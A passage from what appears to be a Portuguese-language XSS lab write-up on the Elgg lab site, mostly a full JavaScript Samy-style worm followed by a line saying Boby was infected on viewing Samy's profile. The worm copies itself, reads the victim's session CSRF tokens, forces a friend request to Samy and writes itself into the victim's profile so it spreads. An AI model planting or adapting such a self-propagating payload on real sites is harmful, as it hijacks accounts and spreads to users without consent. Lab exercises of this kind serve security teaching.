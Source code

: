 ```jsx
<script id="worm" type="text/javascript">
window.onload = function(){
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";                                 

  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); 
  alert(jsCode)
                        
  var userName=elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="__elgg_token="+elgg.security.token.__elgg_token;

  //Requisição GET para adicionar Samy como amigo
  var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47&" + token + ts;
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("GET",sendurl,true);
  Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  Ajax.send();

  //Requisição POST para adicionar worm à descrição das vítimas
  var sendurl="http://www.xsslabelgg.com/action/profile/edit";
  var desc = "&description=Infectado" + wormCode + "&accesslevel[description]=2";
  var content = token + ts + desc + guid;
  var samyGuid=47; 
  if(elgg.session.user.guid!=samyGuid)
	{
	//Create and send Ajax request to modify profile
	var Ajax=null;
	Ajax=new XMLHttpRequest();
	Ajax.open("POST",sendurl,true);
	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
	Ajax.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
	Ajax.send(content);
  }
 
}
</script>
```

Boby ao entrar no perfil Samy se infectou como podemos ver:
